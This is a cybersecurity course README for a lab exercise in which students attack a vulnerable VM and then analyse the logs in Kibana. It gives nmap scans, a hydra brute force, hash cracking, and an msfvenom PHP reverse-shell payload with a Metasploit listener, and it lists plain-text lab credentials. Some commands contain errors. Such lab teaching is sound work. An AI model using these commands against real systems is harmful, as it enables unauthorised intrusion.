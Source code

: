 ## Unit  README: 

### Unit Description

In the second project week, you will work on a Red Team vs. Blue Team scenario in which you will play the role of both pentester and SOC analyst.

As the Red Team, you will attack a vulnerable VM within your environment, ultimately gaining root access to the machine. As Blue Team, you will use Kibana to review logs taken during their Day 1 engagement. You'll use the logs to extract hard data and visualizations for their report.

Then, you will interpret your log data to suggest mitigation measures for each exploit that you've successfully performed.


### Unit Objectives

<details>
    <summary>Click here to view the daily unit objectives.</summary>
<br>

This week's project will prompt you to apply knowledge of the following skills and tools:

- Penetration testing with Kali Linux.

- Log and incident analysis with Kibana.

- System hardening and configuration.

- Reporting, documentation, and communication.


</details>


## Project

---

## Stage 1: Settng up VMs

There are three Machines in the network

1) Kali VM - The Attacker machine

2) Capstone VM - The Victim machine

3) ELK VM - For monitoring and generating logs




**Setting up Capstone VM to enable collection of Logs**

- Cap stone VM credentials: `vagrant:tnargav` and switch to the root user with `sudo su`

- Setting up **filebeat** ships log data (simplifies, parsing, visualization of log formats) from server to ELK Stack or monitoring VM

- `filebeat modules enable apache`
- `filebeat setup`


- Setting up **metricbeat** ships metrics data from server (e-g MongoDB, MYSQL, Apache) to ELK Stack or monitoring VM

- `metricbeat modules enable apache`
- `metricbeat setup`


- Setting up **packetbeat** integrates Elasticsearch and Kibana to provide realtime analysis 

- `packetbeat setup`


- Restarting services after initial installation

- `systemctl restart filebeat`
- `systemctl restart metricbeat`
- `systemctl restart packetbeat`

---
## Stage 2: Attacking the Capsone VM using the VM Kali Linux

- Stages of Engagement: The commands below are run on the Kali Linux. In this case the Hacker's machine (Kali Linux) is already part of the network. That is why there is no need to perform OSNIT/Recon-NG in this project as we are not targeting any external network or website

a) **Information Gathering**: Obtaining info regarding the network, e-g ip addresses etc

- `ifconfig` to discover the network ip address and range

- `netdiscover` to determine the active hosts on the network- The actual command is below

- `netdiscover -r 192.168.1.255/16`



b) **Scanning**

- Checking the hosts again with ping: `nmap -pn 192.168.1.255/16`

- Scanning for open ports and Version: `nmap -sV 192.168.1.1-105`

- Checking for OS: `nmap -sS -A 192.168.1.105`

- Typing the ip address of the victim in the brower can reveal folder directories on the "HTML page" if there are security loop holes such as no formal index.html. The directories may or may not be password protected. 

- gives information about the company_folders and secret_folder and we find that they are password protected

- Alternatively If you know the path to a file, you can attempt to download it directly  `wget 192.168.1.105/company_folders/customer_info/customers.txt`

- `wget 192.168.1.105/meet_our_team/ashton.txt`

- Or run an nmap script reveal hidden files and directories : `nmap --script http-enum -p80 192.168.1.105`. Here `http-enum` is an NSE (Nmap scripting engine) script provides insights regarding the types of servers and applications in use within the subnet. 

- These also inform that the username is Ashton for these password protected folders

- Scanning for directories using dirb

`dirb http://192.168.1.105/ /usr/share/wordlists/dirb/common.txt`

c) **Exploitation**

- Using hydra to brute force ashton's pasword. username: `ashton`

- Unziping the worlist to try to bruteforce attack. Note that in kali linux there is a pre-stored wordlist `/usr/share/wordlists` if it is zipped then it must be unzipped before it can be used

- `gunzip /usr/share/wordlists/rockyou.txt.gz`

- Hydra brute force action: `hydra -l ashton -p /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder/`

- On accessing the secret folder, a new username noted: ryan, need to crack its hash that is also provided in the secret folder

- Crack hash with john the ripper: `john --format=raw-md5 stu_hash`

- Now access Webdav with the username ryan and the cracked password : by typing `dav://192.168.1.105/webdav/` in browser

- Msfvenom to create a reverse shell script in Kali Linux (hacker's VM)

- `msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1.90 LPORT=666 -f raw > shell.php`

- Once shell.php is generated then you can copy it into `dav://192.168.1.105/webdav/` from the browser - this can be done from Kali Linux. In other words you will be 

- Now in Kali Linux run **Metasploit** and run the following commands to prepare for listening and retrograde connection of the  Capstone VM(victim) with Kali Linux. Run the following commands:

- `msfconsole`
- `set payload php/meterpreter/reverse_tcp`
- `set lhost 192.168.1.90`
- `set lport 666`
- `run`


- Run the malacious shell script on the Victim (Capstone) VM, you can actally run this from Kali linux by typing ` 192.168.1.105/webdav/shell.php` into the browser - this will run the script on the Capstone server

- This will open up a meterpreter shell


d) **Post-exploitation**

- Find the flag with meterpreter

- `find / -name flag.txt 2>/dev/null`



e) **Reporting Vulnerabilities**










### Lab Environment

<details>

<summary>Click here to view the lab environnement.</summary>

<br>

In this unit, you will be using the Web Vulns lab environment located in Windows Azure Lab Services. RDP into the Windows RDP host machine using the following credentials:

Username: `azadmin`
Password: `p4ssw0rd*`

Open the Hyper-V Manager to access the nested machines:

- ELK machine credentials:

    - Username: vagrant
    - Password: vagrant

**Next Week's Lab Environment**: At the end of 20.3, we will set up a new Azure Lab Environment for the Forensics unit.  


</details>


### What to Be Aware Of:

- Day 1 can be completed as a competition between the students. If you wish to do so, split the students into teams and have them compete to win a prize! The first team to complete _all_ the steps wins.

- Let students know that to complete Day 2 they must complete steps 1-6 from Day 1. Finding the flag isn't critical, but students need to progress past the point of uploading the reverse shell script.

- Throughout Day 2, it is important that the students take screen shots of each step they complete. These screen shots will be used in their Day 3 Report.

### Security+ Domains

This unit covers portions of the following domains on the Security+ exam:

<details>
    <summary>Click here to see some Security+ Domains that are relevant to this project.</summary>
 <br>

- Types of attacks
- Indicators of compromise
- Penetration testing concepts
- Vulnerability scanning concepts
- Impact of vulnerabilities
- Security assessment tools 

</details> 

<br>

For more information about these Security+ domains, refer to the following resource: [Security+ Exam Objectives](https://www.comptia.jp/pdf/Security%2B%20SY0-501%20Exam%20Objectives.pdf)


### Additional Reading and Resources

<details> 
<summary> Click here to view additional reading materials and resources. </summary>
</br>

Day 1:

- [Red Team Vs Blue Team](https://securitytrails.com/blog/cybersecurity-red-blue-team)
- [What is Vulnerability Scanning](https://www.esecurityplanet.com/network-security/vulnerability-scanning.html)
- [What is a reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/)


Day 2: 

- [Kibana: Discover Documentation](https://www.elastic.co/guide/en/kibana/7.7/discover.html)
- [Kibana: Visualize Documentation](https://www.elastic.co/guide/en/kibana/7.7/visualize.html)
- [Elasticsearch Reference Documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/index.html)


</details>

---

### Looking Forward 

In the next week, we will cover the specialized field of digital forensics. We will cover a new set of skills and tools that allow us to analyze evidence on digital technology after an security incident or crime occurs.  

---


© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
